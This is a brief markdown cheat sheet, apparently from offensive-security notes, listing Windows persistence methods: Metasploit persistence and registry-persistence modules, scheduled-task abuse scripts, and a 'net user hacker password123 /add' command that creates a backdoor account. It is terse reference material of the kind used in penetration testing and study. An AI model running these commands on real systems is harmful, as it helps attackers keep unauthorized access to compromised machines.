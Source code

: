 # Metasploit Ways 
not recommended 
## Persistence Scripts
+ run persistence -h
+ exploit/windows/local/persistence
+ exploit/windows/local/registry_persistence

## Scheduled Tasks
+ run scheduleme
+ run schtaskabuse

# Simple Method

## Add a User
+ net user hacker password123 /add